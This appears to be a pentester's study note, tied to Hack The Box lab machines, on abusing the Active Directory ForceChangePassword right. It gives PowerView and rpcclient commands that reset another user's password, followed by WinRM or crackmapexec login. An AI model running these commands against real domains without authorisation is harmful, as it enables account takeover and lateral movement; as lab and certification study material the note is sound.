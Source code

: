 


## DESCRIPTION

If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password

![[Pasted image 20230116192344.png]]


#### Mas información
* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse
* https://0xdf.gitlab.io/2022/02/28/htb-object.html
* **BUEN RECURSO**: https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword
* Necesary: PowerView (en Windows)

## EXPLOITATION

### OPTION 1: IN WINDOWS MACHINE

1. En la ayuda de Bloodhound nos indica como hacerlo, solo es necesario los dos pasos marcados:
![[Pasted image 20230117163502.png]]

```
$newpass = ConvertTo-SecureString 'PASSWORD!' -AsPlainText -Force
Set-DomainUserPassword -Identity <<USER>> -AccountPassword $newpass
```

2. Ya te puedes intentar conectar por WinRM, crackmapexec, etc.

### OPTION 2: IN KALI MACHINE WITH RPCCLIENT

![[Pasted image 20230216155310.png]]

1. Necesitamos credenciales de RPC Client:

```
rpcclient -U <<DOMAIN>>/<<USUARIO>> <<IP DOMAIN>>
rpcclient $> setuserinfo2 <<USUARIO AL QUE QUEREMOS CAMBIAR LA PAS>> 23 <<NUEVA CONTRASEÑA>>
```

2. Consultar otras alternativas en:
	* https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword
	* https://github.com/mtrill47/OSCP-Notes/blob/main/Active%20Directory/AD.md
## MACHINES

* Hack The Box: Object, Blackfield



